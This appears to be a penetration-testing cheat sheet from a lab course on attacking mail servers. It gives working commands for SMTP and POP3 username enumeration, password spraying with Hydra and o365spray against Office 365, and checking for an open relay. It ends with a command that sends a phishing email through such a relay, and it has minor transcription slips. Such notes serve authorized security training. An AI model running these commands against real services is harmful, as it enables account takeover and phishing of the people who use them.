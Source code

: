 
# Enumeration

```
host -t MX hackthebox.eu
```

```
host -t MX microsoft.com
```

```
dig mx plaintext.do | grep "MX" | grep -v ";"
```

```
dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

```
host -t A mail1.inlanefreight.htb.
```

| Port    | Service                 |
| ------- | ----------------------- |
| TCP/25  | SMTP Unencrypted        |
| TCP/143 | IMAP4 Unencrypted       |
| TCP/110 | POP3 Unencrypted        |
| TCP/465 | SMTP Encrypted          |
| TCP/587 | SMTP Encrypted/STARTTLS |
| TCP/993 | IMAP4 Encrypted         |
| TCP/995 | POP3 Encrypted          |

```
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```

# Misconfigurations

## Authentication

The SMTP server has different commands that can be used to enumerate valid usernames VRFY, EXPN, and RCPT TO. If we successfully enumerate valid usernames, we can attempt to password spray, brute-forcing, or guess a valid password. So let's explore how those commands work.

VRFY this command instructs the receiving SMTP server to check the validity of a particular email username. The server will respond, indicating if the user exists or not. This feature can be disabled.

### SMTP
#### VRFY

```
telnet 10.10.110.20 25

RFY root

252 2.0.0 root


VRFY www-data

252 2.0.0 www-data


VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table

```

#### EXPN

```
telnet 10.10.110.20 25

EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```

#### RCPT TO

```
telnet 10.10.110.20 25

MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown


RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```

### POP3

#### USER

```
telnet 10.10.110.20 110

USER julio

-ERR


USER john

+OK
```

### SMTP-User-Enum

[smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)

```
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

# Cloud Enumeration

## Office 365 O365

[O365spray](https://github.com/0xZDH/o365spray)

Validate it's using o365
```
python3 o365spray.py --validate --domain msplaintext.xyz
```

Spray usernames
```
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

# Password Attacks

## Hydra

```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

## Cloud Services

If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like Hydra, but these tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if the service provider changes something (which happens often), the tools may not work anymore. This is a perfect example of why we must understand what our tools are doing and have the know-how to modify them if they do not work properly for some reason.

### O365 Spray

```
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

# Protocol Specifics Attacks

## SMTP Open Relay

An open relay is a Simple Mail Transfer Protocol (SMTP) server, which is improperly configured and allows an unauthenticated email relay.

Identify if it's an open relay server
```
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

...

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Connect to server and send email
```
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

